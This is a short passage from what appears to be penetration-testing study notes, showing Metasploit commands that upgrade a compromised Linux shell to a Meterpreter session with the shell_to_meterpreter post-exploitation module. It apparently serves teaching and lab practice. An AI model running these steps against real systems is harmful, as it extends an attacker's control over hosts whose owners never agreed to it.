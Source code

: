 <figure><img src="../../../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

### Manual Shell to Meterpreter <a href="#manual-shell-to-meterpreter" id="manual-shell-to-meterpreter"></a>

* This Linux command shell is not as advanced as `Meterpreter`.
* Upgrade the command shell to a `Meterpreter` session on the target system

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
exit
```
